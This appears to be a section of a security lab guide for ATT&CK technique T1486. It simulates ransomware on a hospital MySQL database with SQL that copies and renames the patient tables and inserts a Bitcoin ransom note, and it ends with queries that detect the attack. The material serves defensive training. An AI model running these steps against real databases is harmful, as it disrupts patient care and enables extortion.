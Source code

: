 
#### T1486: Data Encrypted for Impact (Ransomware)

**Description:** Adversaries may encrypt data to demand ransom.

**Implementation in Lab:**
- Application user can rename tables
- Can "encrypt" by moving data and leaving ransom note

**Attack:**
```sql
-- Ransomware simulation
-- Step 1: Backup data (attacker keeps copy)
CREATE TABLE patients_backup AS SELECT * FROM patients;
CREATE TABLE medical_records_backup AS SELECT * FROM medical_records;

-- Step 2: "Encrypt" by renaming tables
RENAME TABLE patients TO patients_encrypted_20240128;
RENAME TABLE medical_records TO medical_records_encrypted_20240128;
RENAME TABLE prescriptions TO prescriptions_encrypted_20240128;

-- Step 3: Create ransom note
CREATE TABLE patients (
    id INT PRIMARY KEY AUTO_INCREMENT,
    message TEXT
);

INSERT INTO patients (message) VALUES 
('YOUR DATABASE HAS BEEN ENCRYPTED'),
('All patient data is encrypted and cannot be recovered'),
('Send 10 Bitcoin to: [BTC ADDRESS]'),
('You have 72 hours before data is permanently deleted'),
('PATIENT LIVES ARE AT RISK - PAY IMMEDIATELY');
```

**Impact:**
- Hospital operations completely halted
- Patient care disrupted
- Life-threatening if critical systems affected
- Ransom payment pressure
- Public relations disaster
- Regulatory fines

**Detection:**
```sql
-- Monitor for mass table renames
SELECT COUNT(*) as rename_count
FROM mysql.general_log
WHERE argument LIKE '%RENAME TABLE%'
  AND event_time > NOW() - INTERVAL 5 MINUTE;

-- Alert on suspicious table names
SELECT TABLE_NAME 
FROM information_schema.TABLES
WHERE TABLE_NAME LIKE '%encrypted%'
   OR TABLE_NAME LIKE '%locked%'
   OR TABLE_NAME LIKE '%ransom%';
```
